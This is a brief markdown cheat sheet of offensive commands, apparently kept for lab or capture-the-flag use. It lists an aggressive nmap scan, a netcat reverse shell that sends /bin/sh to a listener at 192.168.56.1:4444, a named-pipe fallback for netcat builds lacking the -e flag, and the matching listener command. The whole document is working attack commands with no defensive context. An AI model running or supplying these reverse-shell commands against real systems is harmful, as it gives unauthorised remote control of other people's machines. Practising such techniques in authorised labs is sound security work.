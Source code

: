 # Useful command

## Scan

‘’'
nmap -A -Pn -n --top-ports 10000 -vvv -oN 192.168.27.68
‘’'

## Get Shell & Listen:

### get shell

‘’'
nc 192.168.56.1 4444 -e /bin/sh
‘’'

the -e flag was not supported on the server’s implementation of netcat.:

‘’'
mknod /tmp/backpipe p 
/bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe
‘’'

### listen:
‘’'
nc -nvlp 4444
‘’'
